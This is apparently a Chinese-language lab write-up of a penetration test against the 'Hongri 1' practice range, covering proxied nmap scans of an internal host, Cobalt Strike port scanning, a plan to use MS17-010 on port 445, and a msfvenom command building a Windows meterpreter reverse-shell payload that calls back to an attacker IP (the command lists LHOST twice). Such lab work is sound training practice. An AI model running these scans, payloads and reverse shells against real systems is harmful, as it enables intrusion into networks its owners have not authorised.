 成功扫描，但是在扫描大量ip时会遇到timeout的问题导致扫描失败，尝试调低扫描速度即可

扫描另一台主机

```shell
┌──(root㉿kali)-[~]
└─# proxychains nmap -sS -sV -Pn 192.168.52.141
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-16 13:42 EDT
Nmap scan report for 192.168.52.141 (192.168.52.141)
Host is up (0.0011s latency).
Not shown: 993 filtered tcp ports (no-response)
PORT     STATE SERVICE    VERSION
21/tcp   open  tcpwrapped
139/tcp  open  tcpwrapped
777/tcp  open  tcpwrapped
1025/tcp open  tcpwrapped
1030/tcp open  tcpwrapped
7001/tcp open  tcpwrapped
7002/tcp open  tcpwrapped

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.32 seconds
```

很显然这里被墙了，扫描失败，重新再扫一下，应该是代理不稳定的问题(这个问题后面也没有解决)，但是经过多次扫描，能够看到i开放了几个比较重要的端口，并且对这几个重要的端口进行了服务探测，又重新采用了cs中的端口扫描功能进行探测

141的扫描结果

![cs-port-root](E:\笔记软件\笔记\渗透测试\靶机练习\红日1\cs-port-root.jpg)

owa的扫描结果

![cs-post-owa](E:\笔记软件\笔记\渗透测试\靶机练习\红日1\cs-post-owa.png)

当我们没办法直接拿下域控主机时，先尝试拿下第二台跳板机，可以看到第二台机器开放445端口和21ftp服务，445端口存在ms17_010,ftp可尝试未授权

尝试永恒之蓝，由于cs传shell给msf一直失败，所以重新用msf去拿一个shell

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.121.135 LHOST=4444 -f exe > shell.exe
```

生成shell文件后，msf开启对应ip端口的监听

![msf-listin](E:\笔记软件\笔记\渗透测试\靶机练习\红日1\msf-listin.png)

但是迟迟没法上线，重新回到直接建立代理上，检查发现自己的ip给错了应该为teamserver的ip，重新修改文件后再次进行扫描

![namp-new](E:\笔记软件\笔记\渗透测试\靶机练习\红日1\namp-new.png)

这下成功扫描了，令人感慨，开始给msf挂上代理

```
setg Proxies socks4:192.168.121.135:6666
```

